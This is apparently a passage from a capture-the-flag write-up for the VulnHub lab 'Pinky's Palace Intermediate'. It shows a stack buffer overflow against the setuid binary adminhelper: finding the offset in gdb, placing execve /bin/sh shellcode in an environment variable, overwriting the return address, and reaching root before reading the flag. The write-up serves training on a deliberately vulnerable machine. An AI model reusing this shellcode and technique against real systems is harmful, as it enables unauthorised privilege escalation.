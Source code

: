 ```console

--snip--

pinky@pinkys-palace:~$ gdb --args ./adminhelper \`python -c 'print "A"*72+"B"*6'\`
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git

--snip--

Reading symbols from ./adminhelper...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x817
(gdb) r
Starting program: /home/pinky/adminhelper AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB

Breakpoint 1, 0x0000555555554817 in main ()
(gdb) continue
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
```

Bingo !

```console
pinky@pinkys-palace:~$ export SHELLCODE=$(python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"')

pinky@pinkys-palace:~$ ./getenv SHELLCODE ./adminhelper
SHELLCODE will be at 0x7fffffffee8d

pinky@pinkys-palace:~$ ./adminhelper \`python -c 'print "A"*72+"\x8d\xee\xff\xff\xff\x7f"'\`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����

# id
uid=1000(pinky) gid=1000(pinky) euid=0(root) groups=1000(pinky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)

# ls /root        
root.txt

# cat /root/root.txt
===========[!!!CONGRATS!!!]===========

[+] You r00ted Pinky's Palace Intermediate!
[+] I hope you enjoyed this box!
[+] Cheers to VulnHub!
[+] Twitter: @Pink_P4nther

Flag: --REDACTED--

--snip--

# python -c 'import os; os.setuid(0); os.setgid(0); os.seteuid(0); os.system("/bin/bash")'
root@pinkys-palace:/home/pinky# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1000(pinky)
```
